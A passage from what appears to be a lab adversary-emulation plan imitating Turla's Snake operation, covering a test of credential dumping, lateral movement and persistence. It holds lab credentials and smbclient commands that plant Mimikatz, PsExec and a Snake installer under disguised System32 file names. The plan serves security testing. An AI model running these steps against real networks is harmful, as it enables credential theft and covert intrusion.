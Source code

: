   * [Powershell execution](execute.cpp#L372)

### :microscope: Cited Intelligence

* <https://artemonsecurity.com/snake_whitepaper.pdf>

## Test 12: Credential Dumping, Lateral Movement, and Persistence

:microphone: `Voice Track:`

Test 12 emulates Turla performing credential dumping on the file server, and then performing lateral movement to the domain admin's workstation and performing additional persistence by creating a new domain admin account.

---

### :biohazard: Procedures

:arrow_right: Start a new RDP session to `uosis (10.100.40.102)` as `Zilvinas`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Zilvinas  | Producer2! |

* Click on the search bar and search for `powershell`. Right click `powershell` and then click "Run as Administrator".

* When prompted, type in the username and password for `ZilvinasAdmin`:

| Username   | Password |
| :--------: | :---------------: |
| nk\ZilvinasAdmin | Producer2! |

* A new powershell window should pop up. Run the following command to ensure that you are running as `nk\ZilvinasAdmin`:
```pwsh
whoami
```

:arrow_right: Return to your Kali C2 server

* From the `smbclient` Kali terminal tab, copy MimiKatz, PsExec, and the Snake installer, to the file server `berzas`:
```bash
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.30.204/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/mimikatz.exe Windows\System32\loadperf.exe'
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.30.204/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/PsExec.exe Windows\System32\fs_mgr.exe'
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.30.204/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/installer_v3.exe Windows\System32\cmu_svc.exe'
```

:arrow_right: Go back to the RDP session to `Berzas (10.100.30.204)` as `EgleAdmin`:

* Open File Explorer and browse to C:\Windows\System32. Order files by date.

